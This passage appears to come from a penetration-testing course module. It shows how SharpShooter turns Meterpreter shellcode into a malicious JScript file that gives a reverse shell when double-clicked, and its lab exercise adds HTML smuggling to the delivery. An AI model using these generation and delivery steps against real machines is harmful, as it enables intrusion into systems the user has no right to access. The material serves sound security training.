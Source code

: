 > Listing 37 - Creating a raw Meterpreter staged payload

Next, we'll invoke **SharpShooter.py** while supplying a number of parameters, as shown in Listing 38. The first **--payload js**, will specify a Jscript output format. The next parameter, **--dotnetver**, sets the .NET framework version to target. The **--stageless** parameter specifies in-memory execution of the Meterpreter shellcode.

The term "stageless" for SharpShooter refers to whether the entire Jscript payload is transferred at once, or if HTML smuggling is used with a staged Jscript payload.

**--rawscfile** specifies the file containing our shellcode, and we set our output file using **--output**, leaving off the file extension. The full command is shown below:

```
kali@kali:/opt/SharpShooter$ sudo python2 SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
...
    
[*] Written delivery payload to output/test.js
```

> Listing 38 - Generating malicious Jscript file with SharpShooter

Once again, we must configure a multi/handler matching the generated Meterpreter shellcode. Next, we need to copy the generated **test.js** file to our Windows 11 dev machine. When we double-click it, we will obtain a reverse shell.

Using an automated tool can greatly improve productivity and reduce repetitive tasks, but it is always important to understand the techniques employed and the operation of underlying code.

So far, we have taken advantage of both PowerShell and compiled C# assemblies - but we can also combine the two to dynamically load assemblies through PowerShell without touching the disk.

1

(MDSec's ActiveBreach Team, 2019), [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_4963-1)

2

(W3Schools, 2019), [https://www.w3schools.com/python/python_pip.asp](https://www.w3schools.com/python/python_pip.asp) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_4963-2)

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

SharpShooter - dev01

#### Labs

1. Start the dev01 machine and repeat the steps illustrated in this section. Install SharpShooter on Kali and generate a Jscript shellcode runner then expand on the attack by creating a [_staged attack_](https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/) that also leverages HTML smuggling to deliver the malicious Jscript file.
